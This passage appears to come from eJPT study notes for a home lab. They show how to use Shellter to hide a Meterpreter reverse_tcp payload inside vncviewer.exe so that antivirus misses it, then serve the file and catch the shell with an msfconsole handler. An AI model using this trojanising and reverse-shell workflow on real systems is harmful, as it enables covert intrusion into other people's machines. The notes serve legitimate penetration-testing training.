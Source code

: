 * In the `SHELLTER` windows, choose `A` for automatic
* PE Target: `/home/kali/certs/ejpt/AVBypass/vncviewer.exe`

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-82c3786c92833e3b03e5420ada31c9d12e17fb6d%252Fimage-20230424171059096.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=6eb7f781&#x26;sv=1" alt=""><figcaption></figcaption></figure>

* Stealth Mode: `Y` = `vncviewer` will function as normal and the shellcode will be executed in the background
* Payload: `L` - `1`
* LHOST: Attacker's IP - `192.168.31.128`
* LPORT: `1234`

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-b6b51ee9935c98961202b7635edd81e1cc2e1596%252Fimage-20230424165719721.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=dee1ed5&#x26;sv=1" alt=""><figcaption></figcaption></figure>

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-4bf44515069cb081484551a0c531149fce77df42%252Fimage-20230424165739262.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=10a53b3a&#x26;sv=1" alt=""><figcaption></figcaption></figure>

* Now the `/home/kali/certs/ejpt/AVBypass/vncviewer.exe` **file has been replaced by the Shellter generated malicious executable**
* Copy the `vncviewer.exe` file to the target machine

```bash
# Attacker VM
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

# In another terminal
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-4a46a4cecf24d8fe26e04239a8d15b1d1aca5319%252Fimage-20230424171306459.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=99922b92&#x26;sv=1" alt=""><figcaption><p>vncviewer.exe file copied</p></figcaption></figure>

* Run the `vncviewer.exe` file and chheck the `msfconsole` Meterpreter session

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-86ca727ab64a3ceeb3a6463007b855cf3655aa22%252Fimage-20230424171404008.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=a2b3ebd4&#x26;sv=1" alt=""><figcaption></figcaption></figure>

### PowerShell Code Obfuscation <a href="#powershell-code-obfuscation" id="powershell-code-obfuscation"></a>

[**`Invoke-Obfuscation`**](https://github.com/danielbohannon/Invoke-Obfuscation) - _a PowerShell v2.0+ compatible PowerShell command and script obfuscator._

> 🔬 Home lab with Kali Linux and Win7 VMs

* Kali Linux install PowerShell

```bash
cd /opt
sudo git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
sudo apt update && sudo apt install -y powershell
```
